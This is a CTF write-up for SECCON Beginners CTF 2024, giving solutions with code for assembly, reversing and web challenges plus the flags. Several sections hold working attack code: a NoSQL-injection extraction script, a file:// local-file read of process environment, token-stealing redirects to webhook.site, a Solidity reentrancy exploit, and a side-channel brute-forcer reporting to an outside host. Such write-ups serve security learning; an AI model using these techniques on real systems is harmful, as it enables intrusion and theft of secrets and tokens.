# SECCON Beginners CTF 2024 Writeup

# Problems

Writeups for only problems that I solved. Link to writeups for other problems will be added later.

## assemble (00:32, 82 pt, 161 teams solved)

Challenge 1. Please write `0x123` to RAX!

```asm
mov rax, 0x123
```

Challenge 2. Please write `0x123` to RAX and push it on stack!

```asm
mov rax, 0x123
push rax
```

Challenge 3. Please use `syscall` to print `Hello` on stdout!

```asm
mov rax, 1
mov rdi, 1
mov rdx, 1
mov r8, 0x48
push r8
mov rsi, rsp
syscall
mov r8, 0x65
push r8
mov rsi, rsp
syscall
mov r8, 0x6c
push r8
mov rsi, rsp
syscall
syscall
mov r8, 0x6f
push r8
mov rsi, rsp
syscall
```

Challenge 4. Please read `flag.txt` file and print it to stdout!

```asm
push 0
push 0
push 0
push 0
push 0
push 0
push 0
mov rax, 0x7478742e67616c66
push rax
mov rdi, rsp
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 0x40
mov rax, 0
syscall

mov rdi, 1
mov rax, 1
syscall
```

The flag is `ctf4b{gre4t_j0b_y0u_h4ve_m4stered_4ssemb1y_14ngu4ge}`.

## cha-ll-enge (00:35, 65 pt, 295 teams solved)

Opening the file, we see that it is some kind of intermediate level representation. Therefore we... let ChatGPT translate it to C.



```c
#include <stdio.h>
#include <string.h>

int main() {
    // Constant key array
    int key[50] = {119, 20, 96, 6, 50, 80, 43, 28, 117, 22, 125, 34, 21, 116, 23, 124, 35, 18, 35, 85, 56, 103, 14, 96, 20, 39, 85, 56, 93, 57, 8, 60, 72, 45, 114, 0, 101, 21, 103, 84, 39, 66, 44, 27, 122, 77, 36, 20, 122, 7};

    // Input buffer
    char input[70];
    int xor_result;
    int valid_count = 0;

    // Prompt user for input
    printf("Input FLAG : ");
    scanf("%s", input);

    // Check if the length of input is exactly 49 characters
    if (strlen(input) != 49) {
        printf("Incorrect FLAG.\n");
        return 1;
    }

    // Process each character of the input
    for (int i = 0; i < 49; i++) {
        // XOR operations
        xor_result = input[i] ^ key[i];
        xor_result ^= key[i + 1];

        // Check if the XOR result is zero
        if (xor_result == 0) {
            valid_count++;
        }
    }

    // Check if all characters were valid
    if (valid_count == 49) {
        printf("Correct! FLAG is %s.\n", input);
        return 0;
    } else {
        printf("Incorrect FLAG.\n");
        return 1;
    }
}
```

We see that we can obtain the flag by XOR-ing adjacent elements. The flag is `ctf4b{7ick_7ack_11vm_int3rmed14te_repr3sen7a7i0n}`.

## getRank (00:41, 59 pt, 368 teams solved)

```typescript
const RANKING = [10 ** 255, 1000, 100, 10, 1, 0];

function ranking(score: number): Res {
  const getRank = (score: number) => {
    const rank = RANKING.findIndex((r) => score > r);
    return rank === -1 ? RANKING.length + 1 : rank + 1;
  };

  const rank = getRank(score);
  if (rank === 1) {
    return {
      rank,
      message: process.env.FLAG || "fake{fake_flag}",
    };
  } else {
    return {
      rank,
      message: `You got rank ${rank}!`,
    };
  }
}

function chall(input: string): Res {
  if (input.length > 300) {
    return {
      rank: -1,
      message: "Input too long",
    };
  }

  let score = parseInt(input);
  if (isNaN(score)) {
    return {
      rank: -1,
      message: "Invalid score",
    };
  }
  if (score > 10 ** 255) {
    // hmm...your score is too big?
    // you need a handicap!
    for (let i = 0; i < 100; i++) {
      score = Math.floor(score / 10);
    }
  }

  return ranking(score);
}
```

We need to get rank 1 here, but our score is divided by $10^{100}$. Since the largest possible value a JavaScript `Number` can have is $~1.7 \times 10^{308}$, we must somehow make our score `Infinity`. We can't do that in base 10 ($10^{299} < \text{Infinity}$), so we try to do that in base 16 (`parseInt('0xF') == 15`). The flag is `ctf4b{15_my_5c0r3_700000_b1g?}`.

## clamre (00:54, 76 pt, 198 teams solved)

In `flag.ldb` we see the regex `/^((\x63\x74\x66)(4)(\x62)(\{B)(\x72)(\x33)\3(\x6b1)(\x6e\x67)(\x5f)\3(\x6c)\11\10(\x54\x68)\7\10(\x480)(\x75)(5)\7\10(\x52)\14\11\7(5)\})$/` which is probably the regex for the flag, so we let ChatGPT solve it.



Well unfortunately that is not the correct flag. So we use Debuggex and try the character one-by-one. The regex makes use of [backreferences](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Regular_expressions/Backreference), so we find the capturing group and fill in the content.



The flag is `ctf4b{Br34k1ng_4ll_Th3_H0u53_Rul35}`.

## construct (01:36, 114 pt, 74 teams solved)

We try to run the binary using `gdb` (with [GEF](https://github.com/hugsy/gef)) but the execution ends before `entry-break`. We open the binary in Ghidra, and see that there is not much in `main`. What...?

So we look around the unused functions. Using Ghidra, we can find where the functions are referenced.



And we find out that it is referenced from `__DT_INIT_ARRAY`.



`__DT_INIT_ARRAY` is probably a list of functions that are called before `main`, so we look through the function one-by-one and write a Python script to help us reconstruct the flag.

```py
checks = [""] * 16
def fill(i, s):
    checks[i-1] = s
fill(11, "c7l9532k0avfxso4uzipd18egbnyw6rm_tqjh")
fill(4, "9_xva4uchnkyi6wb2ld507p8g3stfej1rzqmo")
fill(3, "lzau7rvb9qh5_1ops6jg3ykf8x0emtcind24w")
fill(12, "l8s0xb4i1frkv6a92j5eycng3mwpzduqth_7o")
fill(8, "17zv5h6wjgbqerastioc294n0lxu38fdk_ypm")
fill(16, "_k6nj8hyxvzcgr1bu2petf5qwl09ids!om347a")
fill(9, "1cgovr4tzpnj29ay3_8wk7li6uqfmhe50bdsx")
fill(6, "tufij3cykhrsl841qo6_0dwg529zanmbpvxe7")
fill(5, "r8x9wn65701zvbdfp4ioqc2hy_juegkmatls3")
fill(14, "aj_d29wcrqiok53b7tyn0p6zvfh1lxgum48es")
fill(13, "l539rbmoifye0u6dj1pw8nqt_74sz2gkvaxch")
fill(1, "c0_d4yk261hbosje893w5igzfrvaumqlptx7n")
fill(7, "b0i21csjhqug_3erat9f6mx854pyol7zkvdwn")
fill(15, "3mq16t9yfs842cbvlw5j7k0prohengduzx_ai")
fill(2, "oxnske1cgaiylz0mwfv7p9r32h6qj8bt4d_u5")
fill(10, "3icj_go9qd0svxubefh14ktywpzma2l7nr685")

for i in range(16):
    print(checks[i][2*i:2*i+2],end="")
print("")
```

The flag is `ctf4b{c0ns7ruc70rs_3as3_h1d1ng_7h1ngs!}`.

## former-seccomp (01:47, 147 pt, 42 teams solved)

We open the binary in Ghidra and see that the program forks into 2 threads. Thread 0 reads the password, while thread 1 processes the password.

If we read the password processing part of thread 1, we will see the flag is stored in plaintext in the memory. So if we can set a breakpoint there, then we can read the memory. But the binary includes anti-debugging code.

So we patch the code out.

First, we find the code that needs to be patched out. The `exit` function call below terminates the program when it detects a debugger, so we only need to patch this instruction out.



Right click the code and select "Patch Instruction".



Then, use any NOP instructions to fill the original command out. There are 1-byte, 2-byte and 3-byte variants. First we choose the 3-byte variant.



Then, we use the 2-byte variant to fill the remaining 2 bytes.



As a result, the call to `exit` function is patched out.



So we enter a flag of the format `ctf4b{%26s%[}]` and set a breakpoint at `0x55555555582f`. (The address in GDB to use is `addr + 0x555555554000 - 0x100000`, where `addr` is the address in Ghidra.)



The flag is `ctf4b{p7r4c3_c4n_3mul4t3_sysc4ll}`.

## double-leaks (02:25, 130 pt, 55 teams solved)

We see that the payload we send to the server is directly passed to MongoDB.

```py
def waf(input_str):
    # DO NOT SEND STRANGE INPUTS! :rage:
    blacklist = [
        "/",
        ".",
        "*",
        "=",
        "+",
        "-",
        "?",
        ";",
        "&",
        "\\",
        "=",
        " ^",
        "(",
        ")",
        "[",
        "]",
        "in",
        "where",
        "regex",
    ]
    return any([word in str(input_str) for word in blacklist])

@app.route("/login", methods=["POST"])
def login():
    username = request.json["username"]
    password_hash = request.json["password_hash"]
    if waf(password_hash):
        return jsonify({"message": "DO NOT USE STRANGE WORDS :rage:"}), 400

    try:
        client = get_mongo_client()
        db = client.get_database("double-leaks")
        users_collection = db.get_collection("users")
        user = users_collection.find_one(
            {"username": username, "password_hash": password_hash}
        )
        if user is None:
            return jsonify({"message": "Invalid Credential"}), 401

        # Confirm if credentials are valid just in case :smirk:
        if user["username"] != username or user["password_hash"] != password_hash:
            return jsonify({"message": "DO NOT CHEATING"}), 401

        return jsonify(
            {"message": f"Login successful! Congrats! Here is the flag: {flag}"}
        )
```

Since `$gte` and `$lt` are not blocked by the WAF, we can use them to solve both fields directly since `aa <= /aa.*/ < ab`, where `/aa.*/` is any string that starts with `aa`.

```py
import requests as r
import time

username = ""
while True:
    has_more = False
    for i in range(32, 127):
        cur = chr(i)
        nxt = chr(i + 1)

        text = "429"
        while "429" in text:
            result = r.post(url, json={
                "username": {"$gte": username+cur, "$lt": username+nxt},
                "password_hash": {"$gt": ""}
            })
            text = result.text

            if "429" in text:
                time.sleep(1)
            else:
                break

        if "DO NOT CHEATING" in result.text:
            username += cur
            has_more = True
            break
        else:
            pass
    
    print("Username:", username)
    if not has_more:
        break

password = ""
while True:
    has_more = False
    for i in "1234567890abcdef":
        cur = i
        nxt = chr(ord(i) + 1)

        text = "429"
        while "429" in text:
            result = r.post(url, json={
                "password_hash": {"$gte": password+cur, "$lt": password+nxt},
                "username": {"$gt": ""}
            })
            text = result.text

            if "429" in text:
                time.sleep(1)
            else:
                break

        if "DO NOT CHEATING" in result.text:
            password += cur
            has_more = True
            break
        else:
            pass
    
    print("Password:", password)
    if not has_more:
        break
```

## ssrforlfi (03:08, 113 pt, 76 teams solved)

```py
# SSRF & LFI protection
if url.startswith("http://") or url.startswith("https://"):
    if "localhost" in url:
        return "Detected SSRF ;("
elif url.startswith("file://"):
    path = url[7:]
    if os.path.exists(path) or ".." in path:
        return "Detected LFI ;("
else:
    # Block other schemes
    return "Invalid Scheme ;("

try:
    # RCE ?
    proc = subprocess.run(
        f"curl '{url}'",
        capture_output=True,
        shell=True,
        text=True,
        timeout=1,
    )
```

There is not much we can do even with `http://localhost`, even though we can use some kind of external DNS to point to `127.0.0.1`.

So we try the LFI path. Searching `curl file url handling` on Google we find the [URL syntax](https://curl.se/docs/url-syntax.html) page. We see the section

> ## FILE
> When a FILE:// URL is accessed on Windows systems, it can be crafted in a way so that Windows attempts to connect to a (remote) machine when curl wants to read or write such a path.
> 
> curl only allows the hostname part of a FILE URL to be one out of these three alternatives: localhost, 127.0.0.1 or blank ("", zero characters). Anything else makes curl fail to parse the URL.

So `file://localhost/<absolute path>` works.

```sh
$ curl 'https://ssrforlfi.beginners.seccon.games/?url=file://localhost/proc/self/environ' --output -
```

And so we have the flag `ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}`.

## wooorker (03:11, 78 pt, 186 teams solved)

The report page sends the admin to the login page, which then redirects to `$next/?token=$token`. So we set the login URL to `login?next=https://webhook.site/<REDACTED>` and so we get the flag.

The flag is `ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}`.

## wooorker2 (03:18, 98 pt, 106 teams solved)

The report page sends the admin to the login page, which then redirects to `$next/#token=$token`. So we set the login URL to `login?next=http://ourcustompage`, which rewrites the URL.

```html
<script>
        window.location.href='https://webhook.site/<REDACTED>?url='+window.location.href.replace('#','?');
</script>
```

The flag is `ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}`.

## commentator (05:09, 114 pt, 75 teams solved)

Since we can only write comment, we must find a way to smuggle a line break into the script file.

Combining [PEP-0263](https://peps.python.org/pep-0263/) and [Standard Encodings](https://docs.python.org/3.10/library/codecs.html#standard-encodings), we have a payload like this.

```
encoding: raw_unicode_escape
\u000A<any code we want to execute>
\u000A<more code we want to execute>
__EOF__
```

The flag is `ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}`.

## vote4b (08:22, 341 pt, 6 teams solved)

This is a classical reentrancy attack problem. We read the [source code of `_safeMint`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/ERC721.sol#L295-L316), and see that it calls `ERC721Utils.checkOnERC721Received`, which calls the `onERC721Received` on `msg.sender`.

Therefore, we simply implement the `IERC721Receiver` interface and `onERC721Received` method on `msg.sender`, to do reentrancy attack.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

import {VmSafe} from "forge-std/Vm.sol";
import {Script} from "forge-std/Script.sol";
import {Ballot} from "../src/Ballot.sol";
import {Setup} from "../src/Setup.sol";
import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract Exploit is Script {
    Setup public chall;
    VmSafe.Wallet public solver;

    function setUp() public {
        chall = Setup(/* chall address */);
        solver = vm.createWallet(/* wallet address */);
    }

    function run() public {
        vm.startBroadcast(solver.privateKey);

        new Cracker(address(chall), address(chall)).go();

        require(chall.isSolved(), "Not solved");
    }
}

contract Cracker is IERC721Receiver {
    Setup public chall;
    address solver_addr;
    uint256 remaining;

    constructor(address chall_addr, address solver_addr_arg) {
        chall = Setup(chall_addr);
        solver_addr = solver_addr_arg;
        remaining = 10;
    }

    function go() public {
        Ballot ballot = chall.ballot();
        chall.register();
        uint256 b = ballot.issueBallot();
        ballot.voteForCandidate(b, solver_addr);
    }

    event Debug(uint256 t);

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        if (remaining == 0) {
            return IERC721Receiver.onERC721Received.selector;
        }
        uint256 cur = 11 - remaining;
        remaining = remaining - 1;

        Ballot ballot = chall.ballot();
        ballot.issueBallot();
        ballot.voteForCandidate(cur, solver_addr);
        emit Debug(ballot.votes(solver_addr));

        return IERC721Receiver.onERC721Received.selector;
    }
}
```

## flagAlias (08:25, 174 pt, 29 teams solved)

We use the payload

```js
(async ()=>{m.a=globalThis["Obj"+"ect"].keys(await import("./fl"+"ag.ts"))})()
```

to extract the key and

```js
(async ()=>{m.a=(await import("./fl"+"ag.ts"))["getRealFl"+"ag_yUC2BwCtXEkg"]["toString"]()})()
```

to call the function.

The flag `ctf4b{y0u_c4n_r34d_4n0th3r_c0d3_in_d3n0}`.

## htmls (09:43, 290 pt, 9 teams solved)

If we show `<object data="$URL1"><object data="$URL2"></object></object>` in browser, the request to `$URL2` will only be sent when the request to `$URL1` fails. Since the directory containing `flag.txt` consists of only single-character directories, we can brute force the character one-by-one.

```js
const app = require("express")();

const server = "https://htmls.beginners.seccon.games/";
const chars = "abcdefghijklmnopqrstuvwxyz0123456789";
let prefix = "file:///var/www/htmls/ctf";
let serverurl = "https://<REDACTED>.trycloudflare.com/";

let queue = [];

async function sleep(time) {
  return new Promise((resolve, reject) => {
    setTimeout(() => resolve(), time);
  });
}
(async () => {
  app.use((req, res, next) => {
    console.log(req.url);
    queue.push(req.url);
    res.end("");
  });

  app.listen(3000);
})();

(async () => {
  for (let i = 0; i < 25; i++) {
    let buf = "";
    for (const char of chars) {
      buf += `<object data="${prefix}/${char}">
            <object data="${serverurl}/${char}"></object>
        </object>`;
    }
    const f = new FormData();
    f.append("html", buf);
    let resp = "503";
    while (resp.includes("503")) {
      resp = await fetch(server, {
        method: "POST",
        body: f,
      }).then((r) => r.text());
      if (resp.includes("503")) {
        console.log("Server dead,waiting 5s");
        await sleep(5000);
      }
    }
    for (let i = 0; i < 100; i++) {
      console.log(`queue length ${queue.length}/35, waiting ${i}/100`);
      if (queue.length === 35) break;
      await sleep(1000);
    }
    if (queue.length < 35) {
      i--;
      continue;
    }
    let ans = "";
    for (const char of chars) {
      let ok = true;
      for (const url of queue) if (url.endsWith(char)) ok = false;
      if (ok) {
        ans = char;
        break;
      }
    }
    if (ans == "") {
      console.error("Failed:no valid char");
    }
    prefix += "/" + ans;
    console.log("Solved to:", prefix);
    queue = [];
  }
})();
```

The flag is `ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}`.